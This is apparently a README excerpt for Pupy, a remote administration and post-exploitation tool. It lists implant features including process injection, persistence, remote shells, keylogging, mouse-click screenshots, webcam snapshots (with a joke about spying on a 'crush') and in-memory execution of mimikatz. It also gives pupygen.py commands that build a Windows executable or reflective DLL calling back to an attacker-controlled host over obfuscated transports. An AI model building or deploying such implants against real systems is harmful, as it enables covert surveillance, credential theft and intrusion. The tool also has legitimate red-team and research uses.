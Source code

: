 ## Implemented Modules :
- migrate
  - inter process architecture injection also works (x86->x64 and x64->x86)
- command execution
- interactive shell (cmd.exe, /bin/sh, /bin/bash, ...)
	- tty allocation is well supported on target running a unix system. Just looks like a ssh shell
- interactive python shell
- download
- upload
- persistence
- screenshot
- webcam snapshot
	- ~~to spy on your crush~~
- in memory execution of PE exe both x86 and x64 !
	- works very well with [mimitakz](https://github.com/gentilkiwi/mimikatz) :-)
- socks5 proxy
- local port forwarding
- shellcode exec (thanks to @byt3bl33d3r)
- keylogger
	- monitor keys, the windows titles the text is typed in and the clipboard ! (thanks @golind for the updates)
- mouselogger:
	- takes small screenshots around the mouse at each click and send them back to the server (thanks @golind)

##Quick start
###Installation :
```bash
pip install rpyc
pip install pefile 
```
####Troubleshooting:
If you have some issues with rpyc while running the server on windows, take a look at issue #25, @deathfantasy made a fix 

### Generate/run a payload
In these examples the server is running on a linux host (tested on kali linux) and it's IP address is 192.168.0.1  
The clients have been tested on (Windows 7, Windows XP, kali linux, ubuntu, Mac OS X 10.10.5) 
#### for Windows
```bash
$ ./pupygen.py auto_proxy -h
usage: auto_proxy [-h] --host <host:port>
                  [--transport {obfs3,tcp_cleartext,tcp_ssl,tcp_base64,scramblesuit}]
				                    ...
$ ./pupygen.py -t exe_x86 auto_proxy --transport tcp_ssl --host 192.168.2.132:443
binary generated with config :
OUTPUT_PATH = ~/pupy/pupyx86.exe
LAUNCHER = 'auto_proxy'
LAUNCHER_ARGS = ['--transport', 'tcp_ssl', '--host', '192.168.2.132:443']
OFFLINE_SCRIPT = None

									
```
you can also :
- use another launcher (currently simple or auto_proxy)
- use -t dll_x86 or dll_x64 to generate a reflective DLL and inject/load it by your own means.
- customize the transport used by supplying it with --transport
